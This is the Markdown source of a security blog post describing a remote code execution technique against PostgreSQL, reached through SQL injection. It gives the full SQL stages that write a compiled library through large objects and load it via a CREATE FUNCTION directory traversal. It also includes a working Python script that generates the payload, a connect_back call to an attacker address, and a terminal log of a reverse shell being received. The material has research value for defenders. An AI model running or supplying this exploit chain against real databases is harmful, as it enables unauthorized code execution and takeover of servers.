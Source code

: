 ```yaml
---
layout: post
title: "SQL Injection Double Uppercut :: How to Achieve Remote Code Execution Against PostgreSQL"
date: 2020-06-26 09:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<img class="excel" alt="Postgres" src="/assets/images/sql-injection-double-uppercut-how-to-achieve-remote-code-execution/pg.png">
<p class="cn" markdown="1">When I was researching exploit primitives for the SQL Injection vulnerabilities discovered in [Cisco DCNM](/blog/2020/01/14/busting-ciscos-beans-hardcoding-your-way-to-hell.html), I came across a generic technique to exploit SQL Injection vulnerabilties against a PostgreSQL database. When developing your exploit primitives, it's always prefered to use an *application technique*, that doesn't rely on some other underlying technology.</p>

<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*I share yet another technique to achieve remote code execution against PostgreSQL Database.*</p>

<p class="cn" markdown="1">An application technique would be the ability to compromise the database integrity and leverage the trust between the application code and the database. In the case of Cisco DCNM, I found 4 different techniques, 2 of which I blogged about (directory traveral and deserialization).</p>

## Prior Research

<p class="cn" markdown="1">Although I didn't know it at the time, [Jacob Wilkin](https://twitter.com/Jacob_Wilkin) had [reported a simpler approach](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) to achieving code execution against PostgreSQL by (ab)using [copy from program](https://www.postgresql.org/docs/12/sql-copy.html). Recently, Denis Andzakovic also [detailed](https://pulsesecurity.co.nz/articles/postgres-sqli) his way of gaining code execution against PostgreSQL as well by (ab)using read/writes to the `postgresql.conf` file.</p>

<p class="cn" markdown="1">I was originally going to sit on this technique, but since Denis exposed the power of `lo_export` for exploitation, I figured one more nail on the coffin wouldn't hurt ;-></p>

<p class="cn" markdown="1">I did some testing and discovered that under windows, the NETWORK_SERVICE cannot modify the `postgresql.conf` file, so Denis's technique is *nix specific. However, his technique doesn't require stacked queries, making it powerful in certain contexts.</p>

## CREATE FUNCTION obj_file Directory Traversal

<div markdown="1" class="cn">
- CVE: N/A
- CVSS: 4.1 [(AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L)](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?calculator&version=3.0&vector=(AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L))
</div>

### Environment

<p class="cn" markdown="1">This technique works on both *nix and Windows but does require stacked queries since we are leveraging the [create function](https://www.postgresql.org/docs/12/sql-createfunction.html) operative.</p>

### Summary

<p class="cn" markdown="1">On the latest versions of PostgreSQL, the `superuser` is no longer allowed to load a shared library file from anywhere else besides `C:\Program Files\PostgreSQL\11\lib` on Windows or `/var/lib/postgresql/11/lib` on *nix. Additionally, this path is **not writable** by either the NETWORK_SERVICE or postgres accounts.</p>

<p class="cn" markdown="1">However, an authenticated database `superuser` can write binary files to the filesystem using "large objects" and can of course write to the `C:\Program Files\PostgreSQL\11\data` directory. The reason for this should be clear, for updating/creating tables in the database.</p>

<p class="cn" markdown="1">The underlying issue is that the `CREATE FUNCTION` operative allows for a directory traversal to the data directory! So essentially, an authenticated attacker can write a shared library file into the data directory and use the traversal to load the shared library. This means an attacker can get native code execution and as such, execute arbitrary code.</p>

### Attack Flow

<p class="cn" markdown="1">**Stage 1 -** We start by creating an entry into the `pg_largeobject` table.</p>

```sql
select lo_import('C:/Windows/win.ini', 1337);
```

<p class="cn" markdown="1">We could have easily used a UNC path here (and skip step 3), but since we want a platform independant technique, we will avoid this.</p>

<p class="cn" markdown="1">**Stage 2 -** Now we modify the `pg_largeobject` entry to contain a complete extension. This extension needs to be compiled against the exact major version of the target PostgreSQL database as well as matching its architecture.</p>

<p class="cn" markdown="1">For a file that is > 2048 bytes in length, the `pg_largeobject` table uses the `pageno` field. So we must break our file up into chunks of size 2048 in bytes.</p>

```sql
update pg_largeobject SET pageno=0, data=decode(4d5a90...) where loid=1337;
insert into pg_largeobject(loid, pageno, data) values (1337, 1, decode(74114d...));
insert into pg_largeobject(loid, pageno, data) values (1337, 2, decode(651400...));
...
```

<p class="cn" markdown="1">It maybe possible to skip stage 1 (and only performing a single statement execution for stage 2) by using [object identifier types](https://www.postgresql.org/docs/8.1/datatype-oid.html) within PostgreSQL, but I have not had the time to confirm this.</p>

<p class="cn" markdown="1">**Stage 3 -** Now we can write our binary into the data directory. Remember, we can't use traversals here since that is checked, but even if we could, strict file permissions for the NETWORK_SERVICE account exist and we have limited options.</p>

```sql
select lo_export(1337, 'poc.dll');
```

<p class="cn" markdown="1">**Stage 4 -** Now, let's trigger the loading of the library.</p>

<p class="cn" markdown="1">I demonstrated in a class I taught a few years back that you can use fixed paths (including UNC) to load extensions against PostgreSQL version 9.x, thus gaining native code execution. [@zerosum0x0](https://twitter.com/zerosum0x0) [demonstrated this](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html) by using the file write technique with a fixed path on the filesystem. But back then, permissions on the filesystem were not as restrictive.</p>

```sql
create function connect_back(text, integer) returns void as '//attacker/share/poc.dll', 'connect_back' language C strict;
```

<p class="cn" markdown="1">However, a few years passed and the PostgreSQL developers decided to block fix paths and alas, that technique is now dead. But we can simply traverse from the lib directory and load our extension! The underlying code of the `create function` appends the `.dll` string, so don't worry about appending it:</p>

```sql
create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;
```

<p class="cn" markdown="1">**Stage 5 -** Trigger your reverse shell.</p>

```sql
select connect_back('192.168.100.54', 1234);
```
			
### Things to consider

<div markdown="1" class="cn">
- You can load DllMain also, but pwning your error log is a one way ticket to detection!
- As mentioned, you will need to compile the dll/so file using the same PostgreSQL version including architecture.
- You can download the extension I used [here](https://github.com/sourceincite/tools/blob/master/pgpwn.c) but you will need to compile it yourself.
</div>

### Fun Facts

<p class="cn" markdown="1">ZDI initially aquired this case but never published an advisory and I was later told me that the vendor wasn't patching it since it's considered a *feature not a bug*.</p>

### Automation

<p class="cn" markdown="1">This code will generate a poc.sql file to run on the database as the superuser. Example:</p>

```
steven@pluto:~/postgres-rce$ ./poc.py 
(+) usage ./poc.py <connectback> <port> <dll/so>
(+) eg: ./poc.py 192.168.100.54 1234
steven@pluto:~/postgres-rce$ ./poc.py 192.168.100.54 1234 si-x64-12.dll
(+) building poc.sql file
(+) run poc.sql in PostgreSQL using the superuser
(+) for a db cleanup only, run the following sql:
    SELECT lo_unlink(l.oid) FROM pg_largeobject_metadata l;
    DROP FUNCTION connect_back(text, integer);
steven@pluto:~/postgres-rce$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 192.168.100.122 49165 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\PostgreSQL\12\data>whoami
nt authority\network service

C:\Program Files\PostgreSQL\12\data>
```

```py
#!/usr/bin/env python3
import sys

if len(sys.argv) != 4:
    print("(+) usage %s <connectback> <port> <dll/so>" % sys.argv[0])
    print("(+) eg: %s 192.168.100.54 1234 si-x64-12.dll" % sys.argv[0])
    sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
lib = sys.argv[3]
with open(lib, "rb") as dll:
    d = dll.read()
sql = "select lo_import('C:/Windows/win.ini', 1337);"
for i in range(0, len(d)//2048):
    start = i * 2048
    end   = (i+1) * 2048
    if i == 0:
        sql += "update pg_largeobject set pageno=%d, data=decode('%s', 'hex') where loid=1337;" % (i, d[start:end].hex())
    else:
        sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % (i, d[start:end].hex())
if (len(d) % 2048) != 0:
    end   = (i+1) * 2048
    sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % ((i+1), d[end:].hex())

sql += "select lo_export(1337, 'poc.dll');"
sql += "create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;"
sql += "select connect_back('%s', %d);" % (host, port)
print("(+) building poc.sql file")
with open("poc.sql", "w") as sqlfile:
    sqlfile.write(sql)
print("(+) run poc.sql in PostgreSQL using the superuser")
print("(+) for a db cleanup only, run the following sql:")
print("    select lo_unlink(l.oid) from pg_largeobject_metadata l;")
print("    drop function connect_back(text, integer);")
```

## References

<div markdown="1" class="cn">
- [https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html)
- [https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
- [https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli)
</div>
